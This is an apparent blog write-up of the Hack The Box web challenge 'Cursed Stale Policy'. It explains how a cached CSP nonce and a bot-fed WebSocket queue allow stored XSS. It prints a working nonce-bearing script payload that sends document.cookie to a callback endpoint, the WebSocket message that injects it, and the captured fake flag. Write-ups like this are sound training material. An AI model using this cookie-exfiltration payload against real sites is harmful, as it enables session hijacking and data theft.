 ```yaml
---
title: Cursed Stale Policy - Hack The Box
date: 2024-12-27
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Cursed Stale Policy

![Cursed Stale Policy - thumbnail](/ctf/hack-the-box/challenges/web/cursed-stale-policy/thumbnail.gif){style="width: 250px; height: 250px; display: block; margin: 0 auto"}

## Challenge Description

Spying time. Check what all users have been up to with this Challenge recently.

## Challenge Overview

In this web challenge, the web application includes functionality that leverages user-provided inputs and interacts with
a bot to validate and process specific behaviors. Upon navigating the application, we observe a page with the ability to
send inputs that are reflected within the application context. Additionally, a Content Security Policy (CSP) header is
enforced to prevent certain classes of script-based attacks.

A notable endpoint is `/ws`, which serves as a WebSocket interface for interacting with the server. The server's
functionality hints at integration with a bot that periodically processes inputs, such as scripts embedded within the
application.

![Cursed Stale Policy - Overview](/ctf/hack-the-box/challenges/web/cursed-stale-policy/overview.png)

## Code Review

Upon reviewing the source code, we identify several crucial components:

### Content Security Policy (CSP)

```js
export async function getCachedCSP() {
    let cachedCSP = await redis.get("cachedCSPHeader");

    if (cachedCSP) {
        return cachedCSP; // TOOD: Should we cache the CSP header?
    } else {
        const nonce = crypto.randomBytes(16).toString("hex");
        const cspWithNonce = `default-src 'self'; script-src 'self' 'nonce-${nonce}'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; object-src 'none'; base-uri 'none'; report-uri /csp-report`;

        await redis.set("cachedCSPHeader", cspWithNonce);

        return cspWithNonce;
    }
}
```

In the above code we see this line:

```js
const nonce = crypto.randomBytes(16).toString("hex");
```

Who generates a random nonce for the first time and caches it in the Redis database. This nonce is then used in the CSP
header to allow only scripts with the matching attribute to execute.

The generate `nonce` value is given in the index page as shown below:

![Cursed Stale Policy - nonce](/ctf/hack-the-box/challenges/web/cursed-stale-policy/nonce.png)

### WebSocket Functionality

The WebSocket handler (`websocket.js`) allows sending structured messages. Of particular interest is the `trigger_xss`
message type, which adds user-provided payloads to a queue for subsequent execution by the bot. This mechanism is
designed to evaluate scripts and validate specific functionality.

### Bot Behavior

The bot (`bot.js`) operates as follows:

1. Visits the `/xss` endpoint to execute XSS payloads fetched from Redis.
2. Includes a cookie containing the contents of `flag.txt` as a `flag` value when executing scripts.
3. Executes the provided payload, enabling potential exfiltration of sensitive data.

These components reveal that while CSP is designed to mitigate XSS attacks, the presence of the `trigger_xss` queue
creates an opportunity to exploit a stored XSS vulnerability if a valid payload adheres to CSP constraints.

## Exploitation

### Objective

Leverage the bot's behavior to retrieve the contents of `flag.txt` by bypassing the CSP.

### CSP Constraints Analysis

The CSP header requires all scripts to include a `nonce` attribute with the value `rAnd0m123` to execute. This
constraint prevents traditional inline script-based attacks but still allows exploitation if the `nonce` is included in
the payload.

### Exploitation Steps

#### Step 1: Crafting the Payload

**Payload:**

```html

<script nonce='rAnd0m123'>
    fetch('/callback', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ cookies: document.cookie })
    });
</script>
```

This payload who be executed by the bot and send the cookies to the `/callback` endpoint. The `nonce` attribute is
included to bypass the CSP constraints.

#### Step 2: Injecting the Payload

To inject the payload, send the following WebSocket message to the `/ws` endpoint:

```json
{
    "type": "trigger_xss",
    "payload": "<script nonce='rAnd0m123'>fetch('/callback', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ cookies: document.cookie })});</script>"
}
```

Using **Burp Suite Repeater**, send this payload to the WebSocket endpoint. This message queues the payload for the bot
to execute.

#### Step 3: Observing the Results

Once the payload is executed by the bot, the flag will be sent to the WebHook URL specified in the payload.

Example response in the WebHook site:

```json
{
    "type": "update_logs",
    "payload": [
        {
            "method": "POST",
            "headers": {
                "host": "127.0.0.1:8000",
                "connection": "keep-alive",
                "content-length": "101",
                "user-agent": "HackTheBoo/20.24 (Cursed; StalePolicy) CSPloitCrawler/1.1",
                "content-type": "application/json",
                "accept": "*/*",
                "origin": "http://127.0.0.1:8000",
                "sec-fetch-site": "same-origin",
                "sec-fetch-mode": "cors",
                "sec-fetch-dest": "empty",
                "referer": "http://127.0.0.1:8000/xss",
                "accept-encoding": "gzip, deflate, br, zstd",
                "accept-language": "en-US,en;q=0.9",
                "cookie": "flag=HTB{f4k3_fl4g_f0r_t35t1ng}"
            },
            "args": {},
            "data": {
                "flag": "{\"message\":\"Route GET:/flag.txt not found\",\"error\":\"Not Found\",\"statusCode\":404}"
            },
            "time": "2024-12-26T18:15:15.459Z"
        }
    ]
}
```

We successfully retrieved the fake flag:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We can now use the same technique to get the real flag.

<ChallengeCard
    challengeType="web"
    challengeName="Cursed Stale Policy"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/811"
/>

## Reference

- [Content Security Policy (CSP) Documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Puppeteer Documentation](https://pptr.dev/)
- [WebSocket Basics](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

![Cursed Stale Policy - favicon](/ctf/hack-the-box/challenges/web/cursed-stale-policy/favicon.png){style="width: 250px; height: 250px; display: block; margin: 0 auto;"} 
